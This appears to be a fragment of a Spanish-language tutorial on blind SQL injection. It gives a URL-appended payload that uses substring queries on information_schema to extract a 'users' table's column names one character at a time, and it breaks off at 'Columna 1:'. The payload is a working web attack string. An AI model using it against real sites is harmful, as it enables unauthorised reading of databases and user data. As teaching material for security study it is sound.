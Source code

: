 ![av. cant. car. de col](/assets/img/screens/av_car_col1.png)

La máxima cantidad de caracteres es: 7




<br>
"Visualizando" columnas de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND substring((SELECT column_name FROM information_schema.columns WHERE table_name="users" LIMIT 0,1),x,1)='x';#</font></pre>

<br>
Columna 1: